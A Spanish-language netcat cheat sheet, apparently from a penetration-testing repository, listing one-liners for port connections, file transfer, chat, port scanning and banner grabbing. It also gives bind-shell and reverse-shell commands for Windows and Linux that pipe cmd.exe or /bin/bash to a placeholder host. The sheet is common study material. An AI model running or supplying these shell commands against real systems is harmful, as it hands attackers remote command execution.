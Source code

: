 # Netcat Cheat Sheet

### Conectarnos a un puerto de un host

- `nc -nv <IPAddress> <Port>`: Conexión a un host.

### Transferir un archivo

- `nc -nvlp <Port> > output.txt`: Host a recibir el archivo en el puerto especificado.

- `nc -nv <IPAddress> <Port> < input.txt`: Host que envia el archivo al host destino.

### Chatear entre hosts

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Host se conecta al host al puerto abierto.

### Bind Shell (Windows)

- `nc -nvlp <Port> -e cmd.exe`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Conexión a la shell.

### Bind Shell (Linux)

- `nc -nvlp <Port> -e /bin/bash`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Conexión a la shell.

### Reverse Shell (Windows)

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port> -e cmd.exe`: Conexión al host y mandamos la shell.

### Reverse Shell (Linux)

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port> -e /bin/bash`: Conexión al host y mandamos la shell.

### Escanear Puertos

- `nc -vz <IPAddress> <Port-Range>`: Escanear la IP del host con el rango de puertos.

### Banner Grabbing

- `echo "" | nc -nv -w1 <IPAddress> <Port>`: Banner Grabbing.